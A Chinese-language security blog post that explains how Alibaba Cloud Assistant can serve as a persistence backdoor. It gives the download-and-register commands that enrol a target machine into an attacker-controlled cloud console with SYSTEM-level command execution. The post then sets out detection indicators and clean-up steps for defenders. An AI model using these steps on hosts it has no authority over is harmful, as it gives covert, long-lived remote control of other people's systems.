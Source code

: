 # 022-Ali云助手权限维持




## Ali云助手权限维持

## 简介

**云助手**是专为云服务器 ECS 打造的原生自动化运维工具，通过免密码、免登录、无需使用跳板机的形式，在 ECS 实例上实现批量运维、执行命令（Shell、PowerShell、Bat等）和发送文件等操作。

典型的使用场景包括：安装卸载软件、启动或停止服务、分发配置文件和执行一般的命令（或脚本）等。

但实际上也可以针对终端主机进行远程运维，因此可以用于实现权限维持。

&gt; 官方文档：
&gt;
&gt; https://help.aliyun.com/zh/ecs/user-guide/overview-10

## 利用

1、打开阿里云控制台，依次找到 产品与服务 -&gt; 云服务器 ECS -&gt; 运维与监控 -&gt; 发送命令/文件（云助手） -&gt; 托管实例 -&gt; 创建注册码：

![image-20230817023716768](resource/Ali云助手权限维持.assets/image-20230817023716768.png)

2、输入配置信息，包括如下内容：

- 实例名称前缀

  默认的实例名称。默认使用 hostname 作为实例名称。 若设置，则使用该注册码所注册的实例，将使用该名称作为前辍生成有序的实例名； 也可以在注册时指定新的实例名称以覆盖此默认值。

  只可包含特殊字符中的点号（.）、下划线（_）、连字符（-）和半角冒号（:）

- 来源IP限制：

  待注册的主机的访问互联网时的公网IP或IP范围，支持 IPv4、IPv6和CIDR地址段。

  仅在主机注册阶段进行校验。

- 激活数额度：

  注册码可激活的实例数，即此注册码最多可用于注册的次数。默认值10，最多可支持1000台。

- 有效期：

  注册码的有效期，默认4小时，可选范围 1～876576小时（约100年，半永久:laughing:  ）。

  超出有效期后，该注册码不可用于注册新的主机。

3、点击生成注册码

当生成注册码后，会在下方显示实例注册的命令脚本内容。该注册码内容只显示一次，因此需要保存此注册码唯一ID与内容。

支持Linux 和Windows :

**Linux(.rpm)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.rpm
sudo rpm -ivh aliyun_assist_latest.rpm --force 
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxL47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxxD244E7&#34;
```

**Linux(.deb)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.deb
sudo dpkg -i aliyun_assist_latest.deb
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxx47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxx3D244E7&#34;
```

**Windows**

```powershell
Invoke-WebRequest -Uri `
&#39;https://aliyun-client-assist.oss-accelerate.aliyuncs.com/windows/aliyun_agent_latest_setup.exe&#39; `
-OutFile &#39;C:\\aliyun_agent_latest_setup.exe&#39;
&amp;&#34;C:\\aliyun_agent_latest_setup.exe&#34; &#39;/S&#39; &#39;--register&#39; `
&#39;--RegionId=&#34;cn-hangzhou&#34;&#39; &#39;--ActivationCode=&#34;a-hz012xxxxvttL47fD/f&#34;&#39; `
&#39;--ActivationId=&#34;1DA9xxxxx244E7&#34;&#39;
```

生成的注册码中的关键参数就是 ActivationId值 和 ActivationCode值，Id和Code互相相互对应，可点击 “注册新实例” 处，查看过去建立生成的 ActivationId 值，但 ActivationCode值不可查。

![image-20230817154351004](resource/Ali云助手权限维持.assets/image-20230817154351004.png)

![image-20230817154514371](resource/Ali云助手权限维持.assets/image-20230817154514371.png)





使用阿里云给出的命令下载云助手agent，可能会出现权限不足的情况，需要将文件输出在当前用户可写的路径下。

![image-20230817171338213](resource/Ali云助手权限维持.assets/image-20230817171338213.png)

第一段命令为下载云助手Agent，需要等待一段时间，也可以通过其他方式投递。

第二段命令为云助手Agent注册上线ECS云助手控制端。

在目标机器上运行相应脚本，执行完之后需要刷新或者重新打开一个标签页，即可展示结果：

![image-20230817024035403](resource/Ali云助手权限维持.assets/image-20230817024035403.png)

执行命令相当于创建一个脚本，依次去执行；

远程登录即类似ECS，开启一个Web形式的终端

![image-20230817024508568](resource/Ali云助手权限维持.assets/image-20230817024508568.png)

可以看到登录后即为system权限。



目前发现一些问题：

1. 云助手Agent执行时有 UAC认证；
2. Powershell执行命令下载文件时，需要等待。
3. 在Windows Arm上会被识别为Ubuntu
4. 只适合命令控制，传输文件大小有限制，上传的文件原始大小不大于24KB，且经过Base64编码后的文件不能大于32KB。因此更适合与命令控制和权限维持。
5. 一条命令中，自定义参数的个数不能超过20个



## 排查

**云助手Agent**：

运行云助手后，Windows系统上会有一个 aliyun_agent的进程和一个AliyunService服务，该进程服务会开机自启。

![image-20230817024805213](resource/Ali云助手权限维持.assets/image-20230817024805213.png)

![image-20230817144637237](resource/Ali云助手权限维持.assets/image-20230817144637237.png)

**云助手守护进程：**

本地结束该进程后，远程连接即可终端。未发现进程保护等动作。

![image-20230817030214110](resource/Ali云助手权限维持.assets/image-20230817030214110.png)

![image-20230817030414029](resource/Ali云助手权限维持.assets/image-20230817030414029.png)

查了文档发现其实有守护进程，只是目前仅支持Linux操作系统。

云助手守护进程，用于监控云助手Agent的资源消耗情况，上报云助手Agent的运行状态，以及当云助手Agent崩溃时重启云助手Agent。

- 服务名称：`AssistDaemon`
- 路径：`/usr/local/share/assist-daemon/assist_daemon`

**任务执行路径：**

云助手会将用户的命令内容以文件形式先保存到实例上，然后再执行文件，具体保存路径如下：

- Linux：/tmp

- Windows：云助手安装路径/work/script

**通信流量：**

本地Agent上线后会先对域名进行解析，根据命令行中`--RegionId=&#34;cn-hangzhou&#34;`的键值，会寻找相应的节点，这里就是`cn-hangzhou.axt.aliyuncs.com`。

![image-20230817175441073](resource/Ali云助手权限维持.assets/image-20230817175441073.png)

从TLS协议握手过程可以看到Server Name为`cn-hangzhou.axt.aliyuncs.com`，接下去所走的流量都是TLS加密流量。

![image-20230817174220890](resource/Ali云助手权限维持.assets/image-20230817174220890.png)



## 特征：

1. 检测阿里云助手官方程序，确认是否本人安装
2. 域名：aliyun-client-assist.oss-accelerate.aliyuncs.com，用于下载云助手Agent程序，可被绕过通过其他方式投递。
3. 通信流量，DNS解析记录有`*.axt.aliyuncs.com`，TLS Client Hello 证书握手时Server Name是`*.axt.aliyuncs.com`
4. 进程名：aliyun_agent，服务名：Aliyun Assist Service
5. Linux系统守护进程：AssistDaemon

天眼分析中心日志检测，SSL加密协商：`server_name: (*.axt.aliyuncs.com)`

## 处置

1. 杀进程，关闭服务
2. 删除被非法安装的Ali云助手
3. 排查其他权限维持动作并清除。
4. 增加流量侧和终端侧检测，标记md5和域名。



## 参考文章：

https://mp.weixin.qq.com/s/-JqzD_F_5CqdwZAyhEBU8g

---

> 作者: Xavier  
> URL: http://localhost:1313/posts/ali%E4%BA%91%E5%8A%A9%E6%89%8B%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/  

